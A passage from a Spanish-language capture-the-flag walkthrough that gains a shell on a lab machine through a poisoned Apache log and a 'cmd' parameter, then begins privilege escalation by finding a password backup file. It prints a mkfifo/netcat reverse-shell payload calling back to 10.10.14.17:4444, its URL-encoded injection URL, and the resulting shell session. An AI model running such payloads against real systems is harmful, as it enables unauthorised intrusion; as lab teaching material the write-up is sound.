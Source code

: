 

Luego, se puede poner este **payload** dentro del parámetro que creamos.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4444 >/tmp/f
```
{: .nolineno}


Pero al ponerlo en la URL, es buena idea **urlencodearlo** para evitar problemas a la hora de interpretarse dentro del servidor.

```bash
view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.17%204444%20%3E%2Ftmp%2Ff
```
{: .nolineno}



Y si todo fue realizado de manera correcta, se puede ganar una **shell reversa** dentro del equipo.


```bash
nc -lvp 4444
listening on [any] 4444 ...
10.10.10.84: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.84] 32976
sh: can't access tty; job control turned off
$ whoami
www
$ pwd
/usr/local/www/apache24/data
$ 
```
{: .nolineno}


## Escalada de Privilegios Charix

Ahora que se está dentro del equipo, se pueden enumerar los archivos y se ve que el **usuario** tiene un archivo interesante llamado **pwdbackup.txt**.
```bash
ls
browse.php
index.php
info.php
ini.php
listfiles.php
phpinfo.php
pwdbackup.txt
```
{: .nolineno}


Y al abrirlo, dice que es un archivo que fue cifrado 13 veces en algo que parece ser **base64**.
